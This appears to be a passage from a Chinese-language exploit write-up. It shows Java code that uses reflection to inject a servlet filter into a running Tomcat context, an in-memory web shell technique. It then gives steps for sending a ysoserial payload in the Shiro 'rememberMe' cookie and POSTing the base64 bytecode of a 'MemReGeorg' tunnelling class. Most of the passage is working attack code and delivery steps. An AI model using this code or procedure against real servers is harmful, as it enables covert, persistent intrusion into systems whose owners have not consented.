 ```java
            javax.servlet.FilterRegistration.Dynamic filterRegistration =null;

            try {
                contextField=servletContext.getClass().getDeclaredField("context");
                contextField.setAccessible(true);
                applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(servletContext);
                contextField=applicationContext.getClass().getDeclaredField("context");
                contextField.setAccessible(true);
                standardContext= (org.apache.catalina.core.StandardContext) contextField.get(applicationContext);
                stateField=org.apache.catalina.util.LifecycleBase.class.getDeclaredField("state");
                stateField.setAccessible(true);
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTING_PREP);
                filterRegistration = servletContext.addFilter(name, filter);
                filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,new String[]{url});
                java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class.getMethod("filterStart");
                filterStartMethod.setAccessible(true);
                filterStartMethod.invoke(standardContext, null);
                    stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTED);
            }catch (Exception e){
                ;
            }finally {
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTED);
            }
        }
    }
}

```

在Cookie处填入 rememberMe=[ysoserial生成的POC]，POST包体填入classData=[MemReGeorg类字节码的base64]，注意POST中参数需要URL编码，发包

![](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/login_me/3.png)
